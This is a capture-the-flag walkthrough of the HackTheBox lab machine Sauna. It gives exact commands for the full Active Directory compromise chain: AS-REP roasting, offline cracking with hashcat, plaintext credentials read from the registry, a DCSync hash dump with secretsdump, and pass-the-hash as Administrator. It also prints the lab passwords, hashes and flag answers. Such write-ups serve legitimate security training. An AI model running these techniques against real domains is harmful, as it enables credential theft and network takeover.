# HackTheBox — Sauna | Full Walkthrough

> **Machine:** Sauna
> **Difficulty:** Easy (Windows)
> **Author:** vodanhtieutot
> **Platform:** HackTheBox

---

## Table of Contents

1. [Overview](#1-overview)
2. [Reconnaissance — Nmap Scan](#2-reconnaissance--nmap-scan)
3. [Web Enumeration — Gobuster](#3-web-enumeration--gobuster)
4. [OSINT — Username Harvesting from About Page](#4-osint--username-harvesting-from-about-page)
5. [AS-REP Roasting — GetNPUsers](#5-as-rep-roasting--getnpusers)
6. [Password Cracking — Hashcat](#6-password-cracking--hashcat)
7. [Initial Access — Evil-WinRM as fsmith](#7-initial-access--evil-winrm-as-fsmith)
8. [Credential Discovery — Registry Winlogon](#8-credential-discovery--registry-winlogon)
9. [Privilege Escalation — DCSync via BloodHound](#9-privilege-escalation--dcsync-via-bloodhound)
10. [Domain Compromise — secretsdump + Pass-the-Hash](#10-domain-compromise--secretsdump--pass-the-hash)
11. [Flag Capture](#11-flag-capture)
12. [Flags & Answers Summary](#12-flags--answers-summary)
13. [Attack Chain Summary](#13-attack-chain-summary)
14. [Tools Used](#14-tools-used)

---

## 1. Overview

**Sauna** is an Easy-rated Windows machine on HackTheBox built around an Active Directory environment for a fictional company named **Egotistical Bank**. The attack path begins with OSINT — harvesting employee names directly from the company website — then performing **AS-REP Roasting** to obtain a crackable Kerberos ticket for a user with pre-authentication disabled. After gaining initial foothold, credentials for a second service account are found in the Windows **Registry Winlogon** key. That service account holds **DCSync** privileges (discovered via BloodHound), allowing a full domain credential dump via `secretsdump` and ultimately a **Pass-the-Hash** login as Administrator.

```
Nmap → Gobuster → about.html (employee names) → users.txt wordlist
→ AS-REP Roasting (fsmith) → Hashcat (Thestrokes23)
→ Evil-WinRM → Registry → svc_loanmgr:Moneymakestheworldgoround!
→ BloodHound (DCSync) → secretsdump → Administrator NTLM hash
→ Pass-the-Hash → root shell
```

**Lab Environment:**

| Detail | Value |
|---|---|
| Target IP | `10.129.12.255` |
| Machine Name | `Sauna` |
| OS | Windows Server (Active Directory) |
| Domain | `EGOTISTICAL-BANK.LOCAL` |
| Open Ports | 53, 80, 88, 135, 139, 389, 445, 464, 593, 636, 3268, 3269, 5985, 9389 |
| Attacker | Kali Linux (vodanhtieutot) |

---

## 2. Reconnaissance — Nmap Scan

### 2.1 Full Port Scan

```bash
nmap -Pn -p- --min-rate 5000 10.129.12.255
```



The large number of open ports is immediately a strong indicator of an **Active Directory domain controller**:

| Port | Service | Notes |
|---|---|---|
| 53/tcp | domain | DNS — confirms this is a DC |
| 80/tcp | http | Web server |
| 88/tcp | kerberos-sec | Kerberos — confirms DC |
| 135/tcp | msrpc | RPC |
| 139/tcp | netbios-ssn | SMB legacy |
| 389/tcp | ldap | LDAP |
| 445/tcp | microsoft-ds | SMB |
| 464/tcp | kpasswd5 | Kerberos password change |
| 593/tcp | http-rpc-epmap | RPC over HTTP |
| 636/tcp | ldapssl | LDAP over SSL |
| 3268/tcp | globalcatLDAP | Global catalog LDAP |
| 3269/tcp | globalcatLDAPssl | Global catalog LDAP SSL |
| **5985/tcp** | **wsman** | **WinRM — remote management** |
| 9389/tcp | adws | Active Directory Web Services |

> **Key takeaway:** Port **5985 (WinRM)** is open, meaning if valid credentials are found, we can use **Evil-WinRM** for a fully interactive remote shell without needing RDP.

---

## 3. Web Enumeration — Gobuster

### 3.1 Directory Brute-Force

```bash
gobuster dir -u http://10.129.12.255 \
  -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt \
  -x php,html,txt,asp,aspx \
  -t 50
```



Key pages discovered:

| Path | Status | Notes |
|---|---|---|
| `/index.html` | 200 | Homepage |
| `/about.html` | **200** | **"Meet The Team" — critical** |
| `/contact.html` | 200 | Contact page |
| `/blog.html` | 200 | Blog page |
| `/single.html` | 200 | Single post |
| `/images/` | 301 | Image assets |
| `/css/` | 301 | Stylesheets |
| `/fonts/` | 301 | Fonts |

> The most interesting page is `/about.html`. Company "About" pages often list employee names — and in an AD environment, those names are directly convertible into potential **domain usernames**.

---

## 4. OSINT — Username Harvesting from About Page

### 4.1 Egotistical Bank Employee Listing

Navigate to `http://10.129.12.255/about.html`:



The "Meet The Team" section reveals **6 employees**:

| Name | Title |
|---|---|
| Fergus Smith | — |
| Shaun Coins | — |
| Hugo Bear | — |
| Bowie Taylor | — |
| Sophie Driver | — |
| Steven Kerb | — |

> 🎯 **OSINT finding:** These are real employee names belonging to the `EGOTISTICAL-BANK.LOCAL` domain. Windows AD usernames are typically derived from full names using predictable formats.

### 4.2 Username Wordlist Generation

Based on common AD username formats (`firstname`, `flastname`, `firstname.lastname`, `lastname.firstname`, etc.), generate a comprehensive `users.txt` wordlist:

```bash
cat > users.txt << 'EOF'
fsmith
scoins
btaylor
sdriver
hbear
skerb
fergus.smith
shaun.coins
bowie.taylor
sophie.driver
hugo.bear
steven.kerb
fergussmith
shauncoins
bowietaylor
sophiedriver
hugobear
stevenkerb
smith.fergus
coins.shaun
taylor.bowie
driver.sophie
bear.hugo
kerb.steven
EOF
```



---

## 5. AS-REP Roasting — GetNPUsers

### 5.1 What is AS-REP Roasting?

In Kerberos authentication, users normally require **pre-authentication** before the KDC issues a ticket. However, if the `Do not require Kerberos preauthentication` flag is set on a user account, anyone can request an **AS-REP** (Authentication Service Response) for that user **without knowing their password**. The AS-REP contains data encrypted with the user's password hash — which can then be **cracked offline**.

### 5.2 Running GetNPUsers

```bash
impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ \
  -dc-ip 10.129.12.255 \
  -no-pass -request \
  -usersfile users.txt
```



**Result:** Only one user triggered a valid AS-REP — **fsmith**:

```
$krb5asrep$23$fsmith@EGOTISTICAL-BANK.LOCAL:ee2eb5b3c7bddc463e39e153f145...49f665
```

All other usernames returned `KDC_ERR_C_PRINCIPAL_UNKNOWN`, confirming they don't exist in this format. Only `fsmith` (Fergus Smith) exists with pre-authentication disabled.

> 🎯 **Critical finding:** The AS-REP hash for `fsmith` is now in hand and ready to be cracked offline with a dictionary attack.

---

## 6. Password Cracking — Hashcat

### 6.1 Cracking the AS-REP Hash

Save the full hash to a file and run Hashcat with the `rockyou.txt` wordlist using mode **18200** (Kerberos AS-REP etype 23):

```bash
hashcat -m 18200 fsmith.hash /usr/share/wordlists/rockyou.txt
```



Hashcat cracks the hash in under **7 seconds**:

| Field | Value |
|---|---|
| Hash Mode | 18200 (Kerberos 5, etype 23, AS-REP) |
| Status | **Cracked** |
| Wordlist | `/usr/share/wordlists/rockyou.txt` (14,344,386 passwords) |
| Time | 7 seconds |
| Result | `fsmith : Thestrokes23` |

> 🎯 **Credentials recovered:** `fsmith : Thestrokes23`

---

## 7. Initial Access — Evil-WinRM as fsmith

### 7.1 Connecting via WinRM

Since port **5985** is open, use Evil-WinRM to get an interactive shell:

```bash
evil-winrm -i 10.129.12.255 -u fsmith -p Thestrokes23
```



```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\FSmith\Desktop> cat user.txt
03a9a2a38d3e5bcdafdf719fac22476c
```

> 🚩 **user.txt (User Flag):** `03a9a2a38d3e5bcdafdf719fac22476c`

---

## 8. Credential Discovery — Registry Winlogon

### 8.1 Querying the Winlogon Registry Key

A common Windows misconfiguration is storing **auto-logon credentials** in the registry. Check the standard Winlogon key:

```bash
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
```



The first part of the output reveals:

```
DefaultDomainName    REG_SZ    EGOTISTICALBANK
DefaultUserName      REG_SZ    EGOTISTICALBANK\svc_loanmanager
```

A second service account exists: **svc_loanmanager**. Scrolling further down the output:



```
DefaultPassword    REG_SZ    Moneymakestheworldgoround!
```

> 🎯 **Plaintext credentials in registry:** `svc_loanmgr : Moneymakestheworldgoround!`
>
> Auto-logon credentials stored in plaintext in the registry are a well-known and critical misconfiguration. Any local user (even a low-privileged one) can read this key.

---

## 9. Privilege Escalation — DCSync via BloodHound

### 9.1 BloodHound Analysis — svc_loanmgr Privileges

After collecting BloodHound data (using SharpHound or bloodhound-python), query the privileges of `SVC_LOANMGR`:



BloodHound reveals that `SVC_LOANMGR@EGOTISTICAL-BANK.LOCAL` has the following edges to the domain object:

| Edge | Meaning |
|---|---|
| **DCSync** | Combined label for the below two |
| **GetChanges** | Can replicate directory changes |
| **GetChangesAll** | Can replicate all directory changes (including secrets) |

> 🎯 **Critical AD misconfiguration:** `GetChanges` + `GetChangesAll` together grant the ability to perform a **DCSync attack** — impersonating a domain controller and requesting all password hashes from Active Directory without touching `NTDS.dit` directly or logging on to the DC. This is effectively equivalent to having Domain Admin.

---

## 10. Domain Compromise — secretsdump + Pass-the-Hash

### 10.1 DCSync — Dumping All Domain Hashes

Use `impacket-secretsdump` with the `svc_loanmgr` credentials to perform a DCSync and extract every account's NTLM hash:

```bash
impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.129.12.255
```



The dump returns every account's NTLM hash. The critical one:

```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:823452073d75b9d1cf70ebdf86c7f98e:::
```

> The `823452073d75b9d1cf70ebdf86c7f98e` portion is the **NT hash** of the Administrator account — cracking is not even necessary since Windows natively accepts NTLM hashes for authentication.

### 10.2 Pass-the-Hash — Administrator Shell

Use Evil-WinRM with the `-H` flag to authenticate using the NT hash directly (no plaintext password required):

```bash
evil-winrm -i 10.129.12.255 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
```



```
Evil-WinRM shell v3.9
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Desktop> cat root.txt
93e477d0a4c37b7b1fc8a4cdc0cc00ab
```

> 🚩 **root.txt (Root Flag):** `93e477d0a4c37b7b1fc8a4cdc0cc00ab`

---

## 11. Flag Capture

Both flags have been captured:

| Flag | Location | Value |
|---|---|---|
| User Flag | `C:\Users\FSmith\Desktop\user.txt` | `03a9a2a38d3e5bcdafdf719fac22476c` |
| Root Flag | `C:\Users\Administrator\Desktop\root.txt` | `93e477d0a4c37b7b1fc8a4cdc0cc00ab` |

---

## 12. Flags & Answers Summary

| Flag | Location | Value |
|---|---|---|
| User Flag | `C:\Users\FSmith\Desktop\user.txt` | `03a9a2a38d3e5bcdafdf719fac22476c` |
| Root Flag | `C:\Users\Administrator\Desktop\root.txt` | `93e477d0a4c37b7b1fc8a4cdc0cc00ab` |

---

## 13. Attack Chain Summary

```
[1] nmap -Pn -p- --min-rate 5000 10.129.12.255
        → AD DC confirmed: ports 53, 88, 389, 445, 5985 open
        → WinRM (5985) available — Evil-WinRM possible if creds found

[2] gobuster dir -u http://10.129.12.255 -x php,html,txt,asp,aspx -t 50
        → /about.html (200) discovered — company employee listing

[3] Browse http://10.129.12.255/about.html
        → 6 employee names: Fergus Smith, Shaun Coins, Hugo Bear,
          Bowie Taylor, Sophie Driver, Steven Kerb

[4] Generate users.txt — 24 username format variations per employee
        → fsmith, scoins, btaylor, sdriver, hbear, skerb
        → firstname.lastname, lastname.firstname, concatenated, etc.

[5] impacket-GetNPUsers EGOTISTICAL-BANK.LOCAL/ -usersfile users.txt
        → fsmith has "Do not require Kerberos preauthentication"
        → AS-REP hash returned for fsmith

[6] hashcat -m 18200 fsmith.hash /usr/share/wordlists/rockyou.txt
        → Cracked in 7s: fsmith : Thestrokes23

[7] evil-winrm -i 10.129.12.255 -u fsmith -p Thestrokes23
        → Shell as FSmith
        → cat C:\Users\FSmith\Desktop\user.txt → user flag ✓

[8] reg query "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon"
        → DefaultUserName: EGOTISTICALBANK\svc_loanmanager
        → DefaultPassword: Moneymakestheworldgoround!
        → Plaintext autologon credentials in registry

[9] BloodHound analysis
        → SVC_LOANMGR has GetChanges + GetChangesAll on domain
        → DCSync rights confirmed → can dump all AD hashes

[10] impacket-secretsdump EGOTISTICAL-BANK.LOCAL/svc_loanmgr:'Moneymakestheworldgoround!'@10.129.12.255
        → Full domain hash dump via DCSync
        → Administrator NT hash: 823452073d75b9d1cf70ebdf86c7f98e

[11] evil-winrm -i 10.129.12.255 -u Administrator -H 823452073d75b9d1cf70ebdf86c7f98e
        → Pass-the-Hash → Administrator shell ✓
        → cat C:\Users\Administrator\Desktop\root.txt → root flag ✓
```

---

## 14. Tools Used

| Tool | Purpose |
|---|---|
| `nmap` | Port scanning & service fingerprinting |
| `gobuster` | Web directory brute-forcing |
| Firefox | Manual web browsing & OSINT (about.html) |
| `impacket-GetNPUsers` | AS-REP Roasting — request Kerberos hashes without pre-auth |
| `hashcat` | Offline dictionary attack (mode 18200, rockyou.txt) |
| `evil-winrm` | WinRM remote shell (password auth & Pass-the-Hash) |
| `reg query` | Windows registry credential discovery |
| BloodHound | AD privilege path analysis (DCSync detection) |
| `impacket-secretsdump` | DCSync attack — dump all domain NTLM hashes |
